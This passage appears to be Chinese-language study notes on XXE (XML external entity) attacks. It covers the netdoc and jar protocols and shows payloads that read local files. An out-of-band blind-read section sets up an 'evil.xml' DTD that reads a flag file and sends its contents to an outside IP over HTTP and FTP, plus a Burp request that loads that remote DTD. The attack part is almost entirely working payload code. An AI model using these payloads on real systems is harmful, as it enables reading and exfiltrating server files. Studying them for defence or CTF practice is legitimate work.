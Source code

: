 ![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240610210738.png)

注：元素标签不是固定的，只要是正确格式均可。如:

```xml-dtd
<data>
<content>&file;</content>
</data>
```

### netdoc协议

file:///可用netdoc:/代替

### jar协议

```
jar:{url}!{path}
```

用于从url中下载压缩包解压文件

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "jar:http://127.0.0.1:8081/2.zip!/2.txt">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```





## 基于OOB的盲读文件（无回显

在服务器上创建evil.xml

```xml-dtd
<!ENTITY % file SYSTEM 'file:///e://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://111.231.25.127:8081/?content=%file;'>">
%payload;
%send;

<!ENTITY % file SYSTEM 'file:///e://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'ftp://111.231.25.127:8083/%file;'>">
%payload;
%send;
```

burp构造：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://111.231.25.127:8080/evil.xml">
%remote;]>
```
